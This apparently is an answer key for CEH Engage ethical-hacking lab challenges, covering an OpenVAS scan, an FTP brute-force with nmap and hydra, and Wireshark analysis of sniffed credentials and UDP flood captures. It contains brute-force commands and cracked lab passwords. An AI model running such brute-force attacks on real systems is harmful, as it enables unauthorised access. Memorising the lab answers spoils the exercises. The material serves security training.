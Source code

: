  

Challenge 15:
Perform a vulnerability scan on the host at 192.168.10.144 using OpenVAS and identify any FTP-related vulnerability. (Format: AAA Aaaaaaaaa Aaaaaaaaa Aaaaa )
Answer:

Do the same steps from above


CEH Engage 2:

Challenge 1:
You are assigned to perform brute-force attack on a linux machine from 192.168.10.0/24 subnet and crack the FTP credentials of user nick. An exploitation information file is saved in the home directory of the FTP server. Determine the Vendor homepage of the FTP vulnerability specified in the file. (Format: aaaaa://aaa.aaaaaaaa.aaa/)
Answer
1.	nmap -p 21 -T4 192.168.10.0/24 ( find the ip)
2.	hydra -l nick -P /home/attacker/rockyou.txt ftp://192.168.10.111
3.	user:nick password: apple
4.	ftp 192.168.10.111 ( enter -> enter credentials)
5.	ls -> get 52012.py -> bye -> cat 52012.py 
6.	https://www.crushftp.com


Challenge 2:
An intruder performed network sniffing on a machine from 192.168.10.0/24 subnet and obtained login credentials of the user for moviescope.com website using remote packet capture in wireshark. You are assigned to analyse the Mscredremote.pcapng file located in Downloads folder of EH Workstation-1 and determine the credentials obtained. (Format: aaaa/aaaaa)
Answer:
1.	open wireshark file
2.	edit -> find packet
3.	display filter -> string,  Narrow&wide -> Narrow(UTF-8/ASCII), Packet List -> Packet Details
4.	search for pwd and click on find until you get txtusername=kety, txtpwd=apple
5.	ketty/apple



Challenge 3:
You are assigned to analyse a packet capture file ServerDoS.pcapng located in Downloads folder of EH Workstation-2 machine. Determine the UDP based application layer protocol which attacker employed to flood the machine in targeted network. Note: Check for target Destination port. (Format: Aaaaa Aaaaaaa Aaaaaaaa)

Answer:
1.	open file in wireshark.
2.	click on any packet
3.	look for UDP : destination port 26000
4.	Statistics -> Resolved Addresses -> Ports
5.	Search for port 26000
6.	Perferences -> Protocols -> Quake
7.	Quake Network Protocol


Challenge 4:
A severe DDoS attack is occurred in an organization, degrading the performance of a ubuntu server machine in the SKILL.CEH network. You are assigned to analyse the DD_attack.pcapng file stored in Documents folder of EH workstation -2 and determine the IP address of the attacker trying to attack the target server through UDP. (Format: NNN.NNN.NN.NNN)
Answer:
1.	open file in wireshark
2.	filter Protocol by clicking on it & find UDP
3.	check source ip
4.	192.168.10.144
